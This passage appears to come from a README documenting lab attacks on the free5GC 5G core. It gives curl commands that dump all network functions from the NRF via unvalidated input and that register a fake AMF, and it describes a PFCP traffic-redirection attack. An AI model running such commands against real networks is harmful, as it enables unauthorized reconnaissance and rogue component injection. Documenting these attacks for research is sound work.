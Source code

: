 ### randomDataDump    
This attack exploits a lack of input validation in free5GC and sets the `requester-nf-type` to a random string when making an `nf-instances` request to the NRF. The NRF will still respond with all of the NFs. This attack is executed with the following Linux command: 
```
curl "http://127.0.0.10:8000/nnrf-disc/v1/nf-instances?requester-nf-type=$randomString&target-nf-type="
```

### automatedRedirectWithTimer
This attack is from Positive Technologies' report *5G Standalone core security research* section 4.3. In essence, it listens to network traffic while the UE is connecting. The attack code listens for a packet forwarding control protocol (PFCP) session establishment request, then checks if the UE address is in a list of victim addresses. If the UE is a victim then the attack records session information that it uses to redirect traffic from the UE. This is achieved by sending a PFCP session modification request to the user plane function (UPF) with the discovered session ID and forwarding action rule ID (FARID). The attack will send two such modification requests, wait 5 seconds, send two more modification requests to return the UE to its normal path, wait 5 more seconds, and then repeat.
    
## Network Reconfiguration Attacks
### FakeAMFInsert
This attack registers a fake AMF with the NRF. This is achieved by running the `curl` command to `PUT` a JSON object to the NRF. In the environment where this attack was run there is no check on authority to prevent the attacker from registering a fake AMF.  The *FakeAMFDelete* attack is subsequently run to remove the fake AMF. The instance-ID is required to be a version 4 universally unique identifier(UUID), however free5GC does not check the instance-ID or other details about the AMF before adding it to the core. This includes whether or not the instance-id is a properly formatted UUID, which consists of hexadecimal values in a string. A few 1's in the attack's UUID string were replaced with l's while writing the attack code, so the string was not correctly formatted as hexadecimal. The instance-ID was therefore an invalid UUID, but the instance-ID was accepted by free5GC regardless. The full curl command with its JSON code is below.

```
curl -X PUT -H "Content-Type: application/json" -d 
"{
  "nfInstanceId":"b01dface-bead-cafe-bade-cabledfabled",
  "nfType":"AMF",
  "nfStatus":"REGISTERED",
  "plmnList":[
    {
      "mcc":"208",
      "mnc":"93"
    },
    {
      "mcc":"001",
      "mnc":"01"
    }
  ],
  "sNssais":[
    {
      "sst":1,
      "sd":"010203"
    },
    {
      "sst":1,
      "sd":"112233"
    }
  ],
  "ipv4Addresses":[
    "127.0.0.18"
  ],
  "amfInfo":{
```